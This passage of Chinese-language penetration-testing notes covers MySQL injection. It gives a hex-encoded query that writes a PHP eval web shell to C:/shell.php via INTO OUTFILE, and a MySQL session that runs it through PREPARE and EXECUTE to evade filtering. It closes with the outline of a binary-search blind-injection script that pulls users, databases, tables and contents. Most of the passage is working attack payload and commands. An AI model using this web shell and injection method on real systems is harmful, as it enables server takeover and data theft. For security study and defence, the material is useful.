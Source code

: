 
步骤2. 对"SQL语句"进行编码转换:  hex <-> ascii
```
利用了数据库能够使用hex编码的特性

ascii字符:
select 0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E from xss limit 1 into outfile 'C:/shell.php'

编码为十六进制(hex)格式的数据: 在最前面加0x
0x73656c656374203078334333463730363837303230343036353736363136433238323435463530344635333534354232373633364436343237354432393342334633452066726f6d20787373206c696d6974203120696e746f206f757466696c652027433a2f7368656c6c2e70687027
```

步骤3. 使用数据库的`set`创建变量 被"预编译语句"使用:
```
mysql> use xssdb;
Database changed

mysql> set @a=0x73656C6563742030783343334637303638373032303430363537363631364332
38323435463530344635333534354232373633364436343237354432393342334633452066726F6D
20787373206C696D6974203120696E746F206F757466696C652027433A2F7368656C6C2E70687027;
Query OK, 0 rows affected (0.00 sec)

mysql> prepare tmp from @a;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> execute tmp;
Query OK, 1 row affected (0.00 sec)
```

预编译原理
```
PREPARE statement_name FROM sql_text /*定义*/ 
EXECUTE statement_name [USING variable [,variable...]] /*填充实际变量值 执行预处理语句*/ 
DEALLOCATE PREPARE statement_name /*删除定义*/

如
mysql> PREPARE prod FROM "INSERT INTO examlple VALUES(?,?)"; 
mysql> SET @p='1'; 
mysql> SET @q='2'; 
mysql> EXECUTE prod USING @p,@q; 
mysql> SET @name='3'; 
mysql> EXECUTE prod USING @p,@name; 
mysql> DEALLOCATE PREPARE prod;
```

#### 数据获取 - 二分法

数据获取:自写脚本 利用SQL注入漏洞获取数据(用二分法"加速判断" 缩短数据获取所需时长)
```
test.get_version() #获取版本号
test.get_user_first() #获取数据库用户权限
test.get_user_count() #获取数据库用户数量
test.get_user_len() #获取数据库用户长度
test.get_user() #获取数据库当前用户名
test.get_db_count() #获取数据库数量
test.get_db_len() #获取数据库长度
test.get_database() #获取数据库名
test.get_table_len() #获取表名长度
test.get_table() #获取表名
test.get_columns_len() #获取字段名长度
test.get_columns() #获取字段名
test.get_content() #获取第一列第一个字段内容
```